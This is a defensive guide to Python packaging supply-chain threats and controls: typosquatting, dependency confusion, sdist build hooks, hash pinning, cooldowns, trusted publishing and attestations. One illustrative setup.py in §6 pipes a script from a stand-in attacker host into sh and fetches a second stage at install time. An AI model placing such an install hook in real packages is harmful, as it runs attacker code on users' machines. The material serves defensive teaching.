



# Supply Chain & Publishing Security

> *Every `pip install` or `uv sync` is an act of trust: you are asking a resolver to fetch code
> from strangers and run it on your machine, often before you have read a single line of it.
> This file is the threat model for that trust — how the Python packaging supply chain gets
> attacked, and the concrete defenses a team deploys at each hop from a maintainer's laptop to
> your production container. It is the security companion to
> [Packaging & Project Tooling](packaging_and_project_tooling.md), which covers the lock-file,
> publishing-workflow, and build-backend mechanics this file assumes.*

---

## 1. Concept Overview

Python's packaging supply chain is a chain of trust with a weak link at nearly every hop: the
package author's account, the index that hosts the file, the resolver that picks a version, the
build backend that may execute code to produce it, the CI system that installs it, and the
container image that ships it to production. An attacker does not need to break cryptography to
compromise any of these — phishing a maintainer, exploiting name confusion, or simply publishing
a plausible-looking package under a name a developer will type by accident are all far cheaper
than breaking TLS or forging a signature.

This is not a hypothetical threat. Alex Birsan's 2021 dependency-confusion research compromised
more than 35 companies — including Apple, Microsoft, and PayPal — using nothing but publicly
guessable internal package names, and it earned over $130,000 in bug bounties. The Ultralytics
YOLO package, with roughly 80 million downloads a month, shipped a cryptominer to every user who
upgraded on December 4-7, 2024, after an attacker exfiltrated its PyPI token through a CI
misconfiguration. Neither incident required breaking anything cryptographic; both required only
that a name, a workflow, or a habit be trusted a little too much.

`pip`, `uv`, and PyPI itself have all grown real defenses against this over the last three years
— trusted publishing removed long-lived upload tokens from CI, PEP 740 attestations bind a
release to the exact commit that built it, and PyPI's Project Quarantine feature can now pull a
malicious release out of circulation within hours instead of days. None of these are magic
switches a team gets by installing a tool; each is a policy choice that has to be turned on and
understood by whoever owns the pipeline.

For the same controls applied to model weights, datasets, and ML dependencies, see [ML Supply Chain Security](../../mlops/ml_supply_chain_security/ml_supply_chain_security.md) in `mlops/`.

---

## 2. Intuition

> A software supply chain is like a public water system: most of it works because thousands of
> unrelated contributors add clean water at the source, but the system was never built to check
> the identity of everyone with access to a pipe. Typosquatting is putting your tap next to the
> one everyone reaches for in the dark. Dependency confusion is relabeling the public pipe with
> your company's private brand and waiting for someone to plumb it in unquestioned. A malicious
> sdist is a package that only "purifies" itself — runs its payload — the moment someone tries to
> use it, not before. None of these need to poison the reservoir; they only need one careless
> connection.

**Mental model**: Every dependency you declare is a delegation of code-execution rights, not
just an import. `fastapi>=0.140.0` in `pyproject.toml` says "let whatever the resolver picks
under this constraint run inside my process, my CI, and possibly my production container." The
lock file mechanics in the parent module make that delegation *reproducible* — this file is
about making it *safe*, because reproducibility alone happily reproduces a compromise forever.

**Why it matters**: A single compromised transitive dependency — one nobody on the team chose or
reviewed — has the same blast radius as first-party code: it runs with the same permissions,
reads the same environment variables, and can reach the same secrets. The 2024 Ultralytics
compromise and the 2025 LiteLLM compromise both moved cryptocurrency miners and credential
stealers into production systems this way, with the victim doing nothing wrong except running
`pip install --upgrade`.

**Key insight**: Almost every defense in this file collapses into one idea — *shrink the window
between "code exists" and "code is trusted."* A hash pin, a cooldown period, an OIDC-scoped
15-minute token, an attestation, a quarantine flag — each one either delays install until more
eyes have seen the release, or narrows exactly what a credential can do before it expires.

---

## 3. Core Principles

- **Every hop is a trust boundary, not just the network.** The author's account, the index, the
  resolver's name-matching logic, the build backend executing at install time, the CI runner, and
  the final image each need their own control — securing only the network transport (TLS to
  PyPI) leaves every other hop open.
- **Code execution at install time is the sharpest edge.** A source distribution's build backend
  runs arbitrary Python before your application ever imports anything; a wheel does not. This
  single distinction is why "wheel vs. sdist" is a security decision, not just a performance one.
- **Names are not identities.** PyPI has never enforced that a package's claimed GitHub URL,
  README badges, or download-count-implying stars are genuine — starjacking and typosquatting
  both exploit this gap between what a name/link claims and what actually backs it.
- **A credential's value is proportional to its lifetime and scope.** A `PYPI_TOKEN` that never
  expires and can publish any project is a standing liability; a token that expires in fifteen
  minutes and is scoped to one project by OIDC is not worth stealing.
- **Provenance is not the same as safety.** An attestation proves a file came from a named CI
  workflow at a named commit — it says nothing about whether that commit's code is malicious. A
  compromised CI pipeline still produces a validly attested malicious artifact.
- **An SBOM is an inventory, not a defense.** It answers "am I affected?" in minutes instead of
  days when a new CVE drops; it does nothing to stop the vulnerable package from being installed
  in the first place.
- **New is unproven.** A package version published an hour ago has had zero time for the
  community, automated scanners, or PyPI's own malware detection to look at it — this is the
  entire justification for cooldown-based pinning.

---

## 4. Types / Architectures / Strategies

### Attack Classes

**Typosquatting** — publishing a package under a name that is one keystroke away from a popular
one (`reqeusts`, `colourama` for `colorama`), betting on a developer's typo or regional spelling
habit. Requires no technical sophistication; the payload usually lives in `setup.py` or an
`__init__.py` import-time hook so it fires on install or first import.

**Dependency confusion / namespace confusion** — an organization has an internal package
(`acme-billing-utils`) that is never published publicly, resolved from a private index alongside
public PyPI. An attacker publishes a public package of the *same name* at a deliberately high
version number; a resolver configured to prefer the highest version across all indexes installs
the attacker's code instead of the internal one. This is exactly the technique Birsan used
against 35+ companies in 2021.

**Maintainer-account takeover** — phishing, credential-stuffing, or session-token theft against
a legitimate, trusted maintainer's PyPI account (or the CI system publishing on their behalf),
after which the attacker publishes a malicious release under a name the community already
trusts. This is more dangerous than typosquatting because it inherits the target's existing
download base and reputation instantly.

**Malicious code at install time via an sdist build backend** — the source distribution's
`setup.py` (or PEP 517 build hook) is ordinary Python; it runs with the installing user's full
permissions the moment `pip install` or `uv pip install` triggers a build, before any application
code executes. Six malicious packages found by Unit 42 in March 2023 all launched their payload
from this exact hook.

**Starjacking** — a package's PyPI metadata links to a GitHub repository the package does not
actually correspond to (often a legitimate, popular, unrelated project), so PyPI's UI displays
that project's star count and activity next to the malicious package, manufacturing false
credibility with zero validation from PyPI.

**Slopsquatting** — a supply-chain threat native to the LLM-assisted coding era: code-generating
models hallucinate plausible-sounding package names that do not exist, at rates the USENIX
Security 2025 "We Have a Package for You!" study measured between roughly 5.2% (commercial
models) and 21.7% (open-source models) across 2.23 million generated samples, and 58% of those
hallucinated names repeated across multiple generations from the same prompt — repeatable enough
that an attacker can register the exact name a popular coding assistant keeps suggesting and wait
for someone to `pip install` it unread.



*Four different attack classes converge on the same chokepoint — a developer or CI job typing an
install command — which is why the defenses in this file cluster around that one moment rather
than trying to police every possible attack class separately.*

### Defense Layers

| Layer | What it defends against | Mechanism |
|---|---|---|
| Resolver-side | Dependency confusion, unvetted new releases | Explicit index binding, `--index-strategy`, cooldowns/`--exclude-newer` |
| Install-side | Tampered or substituted files | Hash pinning (`--require-hashes`), wheel-only installs |
| Publish-side | Long-lived credential theft | Trusted publishing (OIDC), scoped short-lived tokens |
| Provenance | "Did this file really come from that CI run?" | PEP 740 attestations, Sigstore signing |
| Account | Maintainer takeover | Mandatory 2FA, Organizations |
| Index | Malware already published | Project Quarantine, PyPI malware reporting |
| Post-install | "Am I already exposed?" | SBOM inventory + `pip-audit` / `osv-scanner` |

---

## 5. Architecture Diagrams

### The Threat Model — What an Attacker Controls at Each Hop



*Six hops, six distinct compromise points — the point of laying them out linearly is that no
single control (not even trusted publishing, the newest and most celebrated one) covers more
than one or two hops. A team that only adopts OIDC publishing has secured the last hop and left
the first five exactly as exposed as before.*

### PEP 740 Attestation: Producer and Consumer Sides



*The attestation binds a file to the commit and workflow that produced it — it says nothing
about whether that commit's code is safe. `pip` and `uv` do not reject unsigned packages by
default as of this writing; an attestation is evidence available to audit, not yet an
install-time gate.*

---

## 6. How It Works — Detailed Mechanics

### Why a Wheel Is Safer Than an sdist

A wheel (`.whl`) is a ZIP archive that the installer unpacks — no code inside it runs during
installation. A source distribution (`.tar.gz`) requires the installer to invoke the project's
build backend, and for a legacy `setup.py`-based project that backend **is** an ordinary Python
script with full permissions of the installing user. This is exactly the mechanism six malicious
PyPI packages used in a documented March 2023 campaign: the payload launched from `setup.py`
during install, not from any imported module later.

```python
# setup.py — BROKEN: this is a real category of PyPI attack, not a toy example
from setuptools import setup
import os, urllib.request

# Runs the instant `pip install` (or even `pip download`, which still builds
# an sdist) triggers a build — before your application ever imports anything
os.system("curl -s https://attacker.example/payload.sh | sh")
urllib.request.urlretrieve("https://attacker.example/stage2", "/tmp/.cache_x")

setup(name="innocuous-looking-utils", version="1.0.0")
```

```bash
# FIX: refuse to build anything — install wheels only, everywhere
pip install --only-binary=:all: -r requirements.lock
uv pip install --only-binary=:all: -r requirements.lock
```

`--only-binary=:all:` makes the installer error out instead of silently falling back to a source
build when no wheel exists for the target platform. This is a real operational tradeoff, not a
free win — a fair number of smaller or native-extension packages still ship only an sdist for
some platform/Python combinations, so a strict `--only-binary=:all:` policy can turn "package has
no matching wheel" into a hard CI failure rather than a slow-but-working build. Treat it as the
default for a locked-down production install path, with a narrow, reviewed allowlist of the
specific packages that still legitimately need to build from source.

### Hash Pinning — and Why One Unhashed Requirement Fails Everything

`pip`'s hash-checking mode activates the instant `--hash` appears against *any* requirement in a
file, or is forced globally with `--require-hashes`. Once active, pip's documented behavior is
strict on three points: hashes are required for every requirement, hashes are required for every
*transitive* dependency too (an un-pinned, un-hashed dependency pulled in transitively is a build
error, not a silent pass), and every requirement must be version-pinned (`==`, a URL, or a
filesystem path) so a hash can never mismatch merely because a range resolved to a newer release.
As pip's own security docs put it, a partially-hashed file is "of little use and thus likely an
error: a malicious actor could slip bad code into the installation via one of the unhashed
requirements" — which is exactly why the mode refuses to run in a half-hashed state rather than
checking only what happens to have a hash.

```bash
# BROKEN — one dependency slipped in without a hash defeats the entire file
fastapi==0.140.0 \
    --hash=sha256:abc123...
pydantic==2.13.4
# ^ no --hash line: pip's hash-checking mode treats this as a hard error,
# not a silent skip, the moment ANY other line in the file has --hash

# FIX — every line hashed, generated by the resolver, never hand-edited
uv pip compile pyproject.toml --generate-hashes -o requirements.lock
uv pip install --require-hashes -r requirements.lock
```

A hash-checked install cannot be satisfied by a tampered file: even a byte-for-byte identical
package re-uploaded under a compromised maintainer account at a different build still hashes
differently the moment its content changes, and a man-in-the-middle substitution on an
insufficiently verified mirror fails the same check. Hash pinning does *not* protect against a
malicious release that was hashed *before* anyone noticed it was malicious — it locks in
whatever version you resolved, not a judgment about whether that version is safe. See
`--exclude-newer` below for the control that addresses that gap.

### Resolver-Side: Cooldowns and Time-Based Pinning

`uv` supports `--exclude-newer`, which limits resolution to distributions uploaded before a
cutoff, expressed either as a fixed timestamp or — via the dependency-cooldown pattern — a
rolling duration:

```toml
# pyproject.toml
[tool.uv]
# Refuse any release less than 3 days old at resolve time. A brand-new
# malicious or compromised release has had zero time for the community,
# automated scanners, or PyPI's own detection to flag it — a short mandatory
# delay is cheap insurance against exactly that window.
exclude-newer = "P3D"
```

```bash
# Pin resolution to a fixed historical point instead — for exact reproduction
# of a past build regardless of anything published since
uv sync --exclude-newer 2026-06-01T00:00:00Z
```

This relies on the index exposing an upload-time attribute per file (PEP 700) — it is a
resolution-time filter, not a retroactive block on anything already installed, and it trades
"newest available fix" for "newest release old enough to have been vetted." A cooldown of a few
days is usually enough to let community reporting and PyPI's own scanning catch an obviously
malicious release without meaningfully lagging behind legitimate patches.

### Resolver-Side: Index Priority and Dependency Confusion

`uv`'s `--index-strategy` controls how a resolver behaves when more than one index (a private
company index plus PyPI, most commonly) can supply a package name. The default,
`first-index`, searches every configured index but "limit[s] the candidate versions to those
present in the first index that contains the package" — so once a package is found on your
internal index, uv will *always* install from there and never fall through to PyPI for a "newer"
version, even if PyPI's copy claims a higher version number. `unsafe-best-match` instead
considers every version from every configured index and picks the best match across all of them
— which is closer to how plain `pip` with multiple `--extra-index-url` flags has historically
behaved, and is exactly the behavior that made Birsan's 2021 research work: an attacker's public
package at version `9.9.9` simply outranks the real internal package on whichever index the
resolver checks last.

```toml
# BROKEN — footgun: plain multi-index pip/uv behavior lets a public package
# with a higher version number shadow the real internal one
[tool.uv]
index-strategy = "unsafe-best-match"

[[tool.uv.index]]
name = "internal"
url = "https://pkg.internal.acme.example/simple"

[[tool.uv.index]]
name = "pypi"
url = "https://pypi.org/simple"
```

```toml
# FIX — bind acme-billing-utils explicitly to the internal index; PyPI can
# never supply it regardless of version number, and mark the internal index
# explicit so nothing installs from it by accident either
[tool.uv]
# default index-strategy ("first-index") is already the safe choice — leave it

[[tool.uv.index]]
name = "internal"
url = "https://pkg.internal.acme.example/simple"
explicit = true

[tool.uv.sources]
acme-billing-utils = { index = "internal" }
```

`explicit = true` prevents *anything* from silently resolving off that index unless it is
specifically pinned to it via `tool.uv.sources` — closing the confusion from both directions at
once: an internal name can no longer be shadowed by PyPI, and a PyPI package can no longer be
accidentally satisfied by something sitting on the internal index either.

### Verification Side of PEP 740 / Sigstore

A trusted-publishing upload (see the parent module, §6, "Publishing to PyPI") already produces an
OIDC identity for the CI job. PEP 740 uses that same identity to sign an attestation — a v1
in-toto statement containing the SHA-256 digest of the uploaded distribution — via Sigstore, and
publishes it alongside the file through PyPI's Integrity API. A consumer verifying an attestation
checks: the signing certificate is valid and was issued to the expected identity (a specific
GitHub Actions workflow, not "someone at Anthropic"), the envelope's signature actually matches
the statement, and the statement's digest matches the file you downloaded.

```bash
# Consumer-side verification with the pypi-attestations CLI
pip install pypi-attestations
python -m pypi_attestations verify \
    --dist fastapi-0.140.0-py3-none-any.whl \
    --repository https://github.com/fastapi/fastapi \
    fastapi-0.140.0-py3-none-any.whl.attestation
# Confirms: this exact wheel was built by fastapi/fastapi's own release
# workflow, from the commit it claims — not hand-built and uploaded by
# someone holding a stolen or phished credential.
```

**What this proves**: the file was produced by the named CI workflow at the named commit, and
has not been altered since. **What it does not prove**: that the commit's code is free of bugs,
malice, or a supply-chain compromise further upstream — a compromised CI pipeline still produces
a validly signed, validly attested malicious file, because the attestation authenticates the
*pipeline*, not the *code*. PEP 740 itself is explicit that it "does not increase (or decrease)
trust in the index itself" — the index is still trusted to deliver the file it says it is
delivering; the attestation is what makes that claim checkable rather than merely assumed. As of
this writing, neither `pip` nor `uv` reject an unattested or unverified package by default —
attestation checking is something a consumer opts into, not an automatic install-time gate.

---

## 7. Real-World Examples

**Alex Birsan's 2021 dependency-confusion research**: an eight-month independent project that
compromised more than 35 companies — Apple, Microsoft, PayPal, and others named publicly —
by finding internal package names leaked in public GitHub repos and npm/PyPI error messages,
then publishing identical-named packages at version `9.9.9` to public registries. The packages
"phoned home" on execution to prove the compromise; Birsan collected over $130,000 in combined
bug bounties, and within 72 hours of his public disclosure, Sonatype observed 300+ copycat
packages flooding npm alone.

**Ultralytics (YOLO) cryptominer, December 2024**: an attacker embedded shell metacharacters in
a pull-request branch name that executed during a `pull_request_target` GitHub Actions workflow,
exfiltrating the project's PyPI upload token. Versions `8.3.41` (live ~12 hours) and `8.3.42`
(live ~1 hour) shipped through the compromised CI pipeline; the attacker then bypassed CI
entirely and published `8.3.45` and `8.3.46` directly on December 7 using the stolen token. Every
version carried an XMRig cryptominer configured to mine Monero. At roughly 80 million downloads a
month, this was not a niche package — it was one of the most-installed computer-vision libraries
in the ecosystem.

**LiteLLM / Telnyx compromise ("TeamPCP" campaign)**: malicious LiteLLM releases (versions
`1.82.7` and `1.82.8`, published March 24, 2026) targeted environment variables, SSH keys, and
cloud credentials for exfiltration; PyPI's Project Quarantine feature was used against this exact
incident to pull the releases from installability while the response was underway.

**Colorama/Colourama typosquatting**: `colourama` (British spelling, one letter added to
`colorama`) shipped code that monitored the Windows clipboard for cryptocurrency addresses and
swapped in an attacker-controlled one — a "clipper" attack riding entirely on a plausible
misspelling, no exploit required.

**PyPI's mandatory 2FA rollout**: phased from a 2022 hardware-key sponsorship for the top 1% of
projects by download count, to mandatory 2FA in June 2023 for any account maintaining at least
one project, to full enforcement for every PyPI account on January 1, 2024 — closing the
account-takeover attack surface that a single reused or phished password used to leave open.

**PyPI Project Quarantine**: launched in active use in August 2024 and documented in detail in a
December 30, 2024 post; of roughly 140 projects quarantined by that point, all but one contained
confirmed malware, and that one exception (an obfuscation false-positive) was corrected and
released from quarantine — the system's whole point being a reversible middle state between
"do nothing" and "delete permanently," which is what PyPI administrators were previously forced
to choose between.

---

## 8. Tradeoffs

| Control | What it buys you | Cost / limitation |
|---|---|---|
| `--only-binary=:all:` | Zero code execution at install time from sdist build backends | Fails hard for packages with no matching wheel; needs a reviewed exception list |
| `--require-hashes` | Blocks any tampered or substituted file, even a byte-identical re-upload | Requires full-graph hash generation via the resolver; cannot be hand-maintained |
| `--exclude-newer` / cooldown | New malicious or compromised releases have time to be caught before you install them | Delays legitimate security patches by the same window; needs periodic override for urgent CVEs |
| Explicit index + `tool.uv.sources` pinning | Closes dependency confusion in both directions | One-time setup per internal package name; silent misconfiguration (`unsafe-best-match`) reopens it |
| Trusted publishing (OIDC) | No long-lived `PYPI_TOKEN` to leak from CI | Requires OIDC support in the CI system; API-token fallback still needed for manual/legacy publishing |
| PEP 740 attestations | Verifiable binding of file to build commit/workflow | Not an install-time gate by default; proves provenance, not code safety |
| SBOM (CycloneDX/SPDX) | Minutes, not days, to answer "am I affected by this CVE" | Pure inventory — installs nothing, blocks nothing, must be paired with a scanner |
| `pip-audit` / `osv-scanner` in CI | Catches known-vulnerable versions before merge | Only as current as the advisory database; zero-days and unreported malware pass silently |
| PyPI 2FA / Organizations | Closes password-only account takeover | Does not stop a maintainer whose 2FA device or CI token is itself compromised |

### CycloneDX vs SPDX

| Attribute | CycloneDX | SPDX |
|---|---|---|
| Primary design focus | Security — compact, native vulnerability/VEX support | Compliance — deep license and legal metadata |
| Typical document size | Leaner for the same dependency graph | Larger; carries more optional metadata by default |
| Vulnerability tooling | Strong ecosystem fit (OWASP Dependency-Track, most SCA platforms) | Usually paired with a separate VEX/CSAF document |
| Best fit | Continuous CI-generated SBOMs feeding a vulnerability pipeline | Legal/compliance handoffs, license audits, regulator/customer mandates naming SPDX |

---

## 9. When to Use / When NOT to Use

### Enforce `--only-binary=:all:` when:
- Building a production or CI install path where every dependency has a wheel available for your
  target platforms — payment services, anything handling secrets, anything running as a
  privileged CI job.
- You control the dependency set tightly enough to maintain a short, reviewed exception list for
  the rare package that must still build from source.

### Do NOT blanket-enforce `--only-binary=:all:` when:
- You depend on smaller or scientific-computing packages that routinely ship sdist-only releases
  for less common platform/Python combinations — a strict policy there turns "no wheel yet" into
  a hard outage instead of a slower build.

### Use `--exclude-newer` / cooldowns when:
- The install path is unattended (CI, scheduled rebuilds) and a few days of lag is an acceptable
  tradeoff for letting the community and PyPI's own scanning catch a bad release first.

### Do NOT rely on cooldowns alone when:
- You need same-day access to a critical security patch — a cooldown delays the fix exactly as
  much as it delays an attack; pair it with an explicit override path for urgent CVEs, not a
  blanket rule with no escape hatch.

### Use trusted publishing (OIDC) when:
- Publishing from CI at all — there is close to no remaining reason to store a long-lived
  `PYPI_TOKEN` as a repository secret for a supported CI system.

### Use an API token when:
- The CI system has no OIDC support, or a maintainer is publishing manually from a laptop; keep
  it scoped to a single project and rotate it, and prefer registering trusted publishing as the
  primary path with the token as fallback rather than the reverse.

### Generate an SBOM when:
- You need to answer "which of our deployed services use package X" within minutes of a new CVE
  — the entire value is in having the inventory *before* you need it, not after.

### Do NOT treat an SBOM as a security control:
- It blocks nothing and installs nothing; without a paired scanner (`pip-audit`, `osv-scanner`)
  actively diffing it against a vulnerability feed, it is a document nobody reads until an
  incident forces them to.

---

## 10. Common Pitfalls

### BROKEN: `--extra-index-url` for an internal package, no explicit binding

```bash
# BROKEN — this is the exact shape of the 2021 dependency-confusion attacks
pip install --extra-index-url https://pkg.internal.acme.example/simple acme-billing-utils
```

`pip`'s classic multi-index behavior considers all configured indexes and, depending on version
and flags, can select the *highest available version* across all of them — not necessarily the
one from your internal index. An attacker who publishes `acme-billing-utils==9.9.9` on public
PyPI can win that comparison outright, and the developer's install silently pulls attacker code
with no error, no warning, and no diff to review.

```toml
# FIX — uv config: internal index explicit, package explicitly bound to it
[[tool.uv.index]]
name = "internal"
url = "https://pkg.internal.acme.example/simple"
explicit = true

[tool.uv.sources]
acme-billing-utils = { index = "internal" }
```

```bash
# FIX — pip equivalent: never mix internal and public resolution for the
# same install; pin the internal index alone for internal packages, PyPI
# alone for public ones, in two separate --index-url invocations (never
# --extra-index-url for anything with a matching public-namespace risk)
pip install --index-url https://pkg.internal.acme.example/simple acme-billing-utils
```

The fix is never "trust the first result" — it is "remove the ambiguity entirely" by binding a
name to exactly one index instead of letting version-number comparison decide across sources with
different trust levels.

---

### BROKEN: reviewing only the top-level dependency, never the sdist build hook

```
myservice/pyproject.toml
  dependencies = ["acme-data-tools>=2.0.0"]
```

A developer reviews `acme-data-tools` on PyPI — reasonable README, plausible commit history — and
approves the addition. Nobody inspects `setup.py` inside the sdist, because CI only ever installs
the wheel and the reviewer never builds from source locally. Three releases later, a compromised
maintainer account ships a version whose sdist (not the wheel — the wheel stays clean to avoid
tripping any wheel-content scanner) carries a credential-exfiltration payload in its build hook,
and it only fires for the small fraction of environments — an ARM CI runner with no matching
wheel, say — that fall back to building from source.

```bash
# FIX — never let a fallback sdist build happen silently; fail loudly instead
pip install --only-binary=:all: acme-data-tools
# If this now errors with "no matching distribution", that IS the finding:
# investigate why no wheel exists before allowing a source build for this
# specific package, rather than letting the installer quietly fall through
```

The lesson generalizes: a review of the published wheel or the GitHub source tree tells you
nothing about what the *sdist's build hook* does, because that hook is a separate code path most
reviewers never execute or read.

---

### Other Common Pitfalls

**Treating an attestation as a green light.** PEP 740 attestations verify that a file came from
a specific commit and workflow — they do not verify that the commit's code is safe. A
compromised CI pipeline (see Ultralytics above) produces validly signed, validly attested
malicious artifacts. Attestations narrow "who published this" to a near-certainty; they say
nothing about "should this exist at all."

**Starjacking passing an informal review.** A reviewer who checks "does this package's GitHub
link show real activity and a healthy star count" before approving a new dependency can be fooled
outright — PyPI performs no validation that a project's linked repository is the one that
actually produced the uploaded files. Verify provenance through the package's own signed
metadata or attestation, never through a clickable link in its PyPI page.

**Slopsquatting via an unreviewed AI-suggested import.** A developer accepts an LLM's suggested
`pip install some-plausible-helper-lib` without checking it exists on PyPI first — and if it
doesn't yet, an attacker who has been watching what popular coding assistants hallucinate can
register that exact name ahead of time. Treat any AI-suggested dependency exactly like a
typo-prone human-typed one: verify the name against the package's actual purpose and history
before installing, not after.

**Assuming a lock file protects against a malicious *new* addition.** A lock file (see the parent
module) guarantees the *same* set of dependencies resolves every time — it says nothing about
whether the versions it locked were safe when they were added. `uv lock --upgrade-package X`
re-resolving into a just-published, unvetted release re-opens exactly the window a cooldown
policy exists to close.

**Confusing a vulnerability scanner with a malware scanner.** `pip-audit` and `osv-scanner`
match your installed versions against databases of *known, disclosed* vulnerabilities (CVEs,
GHSAs) — they will not flag a brand-new malicious package that has no CVE filed against it yet,
because there is nothing in the database to match. A cooldown period and PyPI's own quarantine
system are the controls that address undisclosed, actively-malicious releases; a vulnerability
scanner addresses a different, later stage of the same problem.

---

## 11. Technologies & Tools

| Tool | Category | What it does | Notes |
|---|---|---|---|
| `pip-audit` | Vulnerability scanner | Audits environments/requirements files against the PyPA Advisory Database and OSV; can auto-upgrade | Maintained by Trail of Bits with Google support; also emits CycloneDX SBOMs |
| `osv-scanner` | Vulnerability scanner | Scans `requirements.txt`, `poetry.lock`, `uv.lock`, `pylock.toml`, and containers against OSV.dev | Google; v2 adds call-graph analysis to cut false positives and offers guided remediation |
| Dependabot / Renovate | Automated dependency updates | Opens PRs for outdated or vulnerable dependencies on a schedule | Pairs naturally with `uv`'s Dependabot integration |
| `cyclonedx-py` | SBOM generator | Builds a CycloneDX SBOM from a Python environment, requirements file, or Pipenv project | Narrower, Python-specific scope than Syft |
| Syft | SBOM generator | Scans an entire environment (requirements, `setup.py`, installed packages, containers) across ecosystems | Outputs CycloneDX, SPDX, or its own JSON format |
| `pypi-attestations` | Attestation tooling | CLI/library to sign, verify, and inspect PEP 740 / Sigstore attestations | Also converts between raw Sigstore bundles and PEP 740 objects |
| `gh-action-pypi-publish` | Trusted publishing | GitHub Action that exchanges a job's OIDC token for a scoped PyPI upload token and attaches an attestation | Covered mechanically in the parent module, §6 |
| PyPI Integrity API | Provenance lookup | Exposes signing identity and source workflow per uploaded file | Consumer-side programmatic verification target |
| PyPI Project Quarantine | Index-level containment | Reversible "hidden from install, not deleted" state for a suspected-malicious project | In active use since August 2024 |
| PyPI Organizations | Account/access management | Team-managed ownership of a project collection | Namespace *reservation* (PEP 752/755) is proposed, not yet shipped as of this writing |
| Dependency-Track | SBOM platform | Continuously matches an org's SBOMs against vulnerability feeds | Common CycloneDX-ecosystem consumer |

---

## 12. Interview Questions with Answers

**Q: Why is a source distribution (sdist) a bigger install-time security risk than a wheel?**
**Short:** An sdist's build backend runs arbitrary code at install time, while a wheel is only unpacked.

A wheel is a pre-built ZIP archive — the installer unpacks it, and no code from the package runs
during that process. An sdist requires the installer to invoke the project's build backend, and
for a legacy `setup.py`-based project that backend is ordinary Python with the full permissions
of the installing user; a documented March 2023 Unit 42 campaign found six malicious PyPI
packages that all launched their payload from exactly this hook. The practical defense is
`--only-binary=:all:`, which makes the installer error instead of silently falling back to a
source build when no wheel is available for the target platform.

**Q: What is dependency confusion, and what makes a resolver vulnerable to it by default?**
**Short:** Dependency confusion tricks a multi-index resolver into installing a public package with the same name as a private one.

An organization runs an internal package (say `acme-billing-utils`) on a private index alongside
public PyPI; a resolver configured to prefer the highest available version across all indexes can
be tricked by an attacker publishing a same-named public package at a deliberately high version
number like `9.9.9`. This is exactly the technique Alex Birsan used to compromise 35+ companies
in 2021, earning over $130,000 in bug bounties. The fix is explicit index binding — `uv`'s
default `first-index` strategy already always installs from whichever index found the package
first and never falls through to a "higher version" elsewhere, and marking the internal index
`explicit = true` with the package pinned via `tool.uv.sources` closes the gap in both
directions; `--index-strategy unsafe-best-match` reopens exactly this vulnerability by comparing
versions across all indexes regardless of trust.

**Q: What does `--require-hashes` actually enforce, and why does one unhashed line break the whole file?**
**Short:** Hash-checking mode requires every requirement, including transitive ones, to be pinned and hashed, or it fails outright.

Once activated — by any `--hash` line or by `--require-hashes` explicitly — pip requires hashes
for every requirement, requires hashes for every transitive dependency too (an unhashed
dependency pulled in indirectly is a hard error, not a silent gap), and requires every requirement
to be version-pinned. pip's own docs explain why: a partially-hashed file is "of little use and
thus likely an error," because a malicious actor could slip bad code in through exactly the one
requirement that has no hash to check. In practice this means hashed lock files must always be
machine-generated by the resolver (`uv pip compile --generate-hashes`) and never hand-edited,
since a single manually-added unhashed line silently defeats the protection for the entire file.

**Q: What is starjacking, and why can't a reviewer trust a package's GitHub link on PyPI?**
**Short:** Starjacking links a malicious package's PyPI metadata to an unrelated popular repo to borrow its star count.

Starjacking is linking a package's PyPI project metadata to a GitHub repository it does not
actually correspond to — typically a legitimate, popular, unrelated project — so PyPI's own UI
displays that project's star count and activity next to the malicious package with zero
validation that the link is genuine. A reviewer who approves a new dependency partly because "it
looks well-maintained on GitHub" can be fooled outright by this, because PyPI never checks that
the linked repository actually produced the uploaded files. The defense is verifying provenance
through the package's signed attestation or its actual upload history, never through a clickable
link on its PyPI page.

**Q: What is slopsquatting, and why is it a new attack surface rather than typosquatting under a different name?**
**Short:** Slopsquatting registers package names that LLMs hallucinate, exploiting how repeatably models suggest the same fake name.

Slopsquatting is registering a plausible-sounding package name that a code-generating LLM
hallucinates — one that doesn't actually exist on PyPI — so that a developer who accepts an
AI-suggested `pip install` without checking installs the attacker's package instead. The 2025
USENIX Security study "We Have a Package for You!" measured hallucination rates from roughly 5.2%
on commercial models to 21.7% on open-source models across 2.23 million generated samples, and
found 58% of hallucinated names repeated across multiple generations — repeatability that is what
makes this exploitable at all, since an attacker only benefits if the same fake name keeps
getting suggested. Treat any AI-suggested dependency with the same scrutiny as a human typo:
verify it exists and matches its claimed purpose before installing.

